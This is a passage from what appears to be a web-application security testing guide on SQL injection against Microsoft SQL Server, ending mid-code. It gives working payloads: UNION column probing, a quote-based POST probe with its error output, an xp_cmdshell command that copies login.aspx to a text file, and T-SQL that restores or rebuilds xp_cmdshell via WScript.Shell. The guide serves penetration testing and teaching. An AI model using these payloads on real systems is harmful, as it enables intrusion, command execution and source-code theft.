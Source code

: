 
### Example 2: Testing for SQL Injection in a GET request

In order to learn how many columns exist
```
 https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--
```

### Example 3: Testing in a POST request

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`


A complete post example:
```
 POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1
 Host: vulnerable.web.app
 User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13
 Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
 Accept-Language: en-us,en;q=0.5
 Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
 Keep-Alive: 300
 Proxy-Connection: keep-alive
 Referer: http://vulnerable.web.app/forgotpass.asp
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 50<br>
 email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

The error message obtained when a ' (single quote) character is entered at the email field is:
```
 Microsoft OLE DB Provider for SQL Server error '80040e14'
 Unclosed quotation mark before the character string * '.
 /forgotpass.asp, line 15
```

### Example 4: Yet another (useful) GET example

Obtaining the application's source code
```
 a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--
```

### Example 5: custom xp_cmdshell

All books and papers describing the security best practices for SQL Server recommend disabling xp_cmdshell in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.
<br><br>
On SQL Server 2000:
* If xp_cmdshell has been disabled with sp_dropextendedproc, we can simply inject the following code:
```
sp_addextendedproc 'xp_cmdshell','xp_log70.dll'
```
* If the previous code does not work, it means that the xp_log70.dll has been moved or deleted. In this case we need to inject the following code:
```
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
  DECLARE @result int, @OLEResult int, @RunResult int
  DECLARE @ShellID int
  EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
  IF @OLEResult <> 0 SELECT @result = @OLEResult
  IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
```